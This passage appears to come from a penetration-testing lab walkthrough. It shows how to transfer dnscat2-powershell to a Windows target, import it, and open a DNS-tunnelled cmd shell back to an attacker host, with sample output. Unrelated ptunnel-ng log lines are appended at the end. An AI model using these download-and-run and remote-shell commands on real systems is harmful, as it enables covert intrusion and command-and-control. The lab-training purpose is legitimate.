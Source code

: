 Subsequently, students need to transfer `dnscat2-powershell` to the spawned Windows target using any file transfer technique (including dragging and dropping the file). To transfer the file, students can start a Python3 web server on `Pwnbox`/`PMVPN` where the folder `dnscat2-powershell` is:

Code: shell

```shell
python3 -m http.server PWNPO
```

```
┌─[us-academy-1]─[10.10.14.17]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ python3 -m http.server 9001

Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Then, using `PowerShell` (run as administrator) from the Windows spawned target, students can download the file using the `.NET` `WebClient`:

Code: shell

```shell
(New-Object Net.WebClient).DownloadFile('http://PWNIP:PWNPO/dnscat2-powershell/dnscat2.ps1', 'dnscat2.ps1')
```

```
PS C:\Windows\system32> (New-Object Net.WebClient).DownloadFile('http://10.10.14.17:9001/dnscat2-powershell/dnscat2.ps1', 'dnscat2.ps1')
```

After successfully downloading the `dnscat2.ps1` file, students need to import it as a module:

Code: powershell

```powershell
Import-Module .\dnscat2.ps1
```

```
PS C:\Windows\system32> Import-Module .\dnscat2.ps1
```

Subsequently, to attain a shell on the attacking host, students need to use `dnscat2` as a client to establish connectivity with the `dnscat2` server that was started on `Pwnbox`/`PMVPN` (students need to make sure that the pre-shared secret supplied to the `-PreSharedSecret` option is the one that was generated by `dnscat2.rub` on `Pwnbox`/`PMVPN`):

Code: powershell

```powershell
Start-Dnscat2 -DNSServer PWNIP -Domain inlanefreight.local -PreSharedSecret ac8cddd0b8161f2672390f95f8089317 -Exec cmd
```

```
PS C:\Windows\system32> Start-Dnscat2 -DNSServer 10.10.14.17 -Domain inlanefreight.local -PreSharedSecret ac8cddd0b8161f2672390f95f8089317 -Exec cmd
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.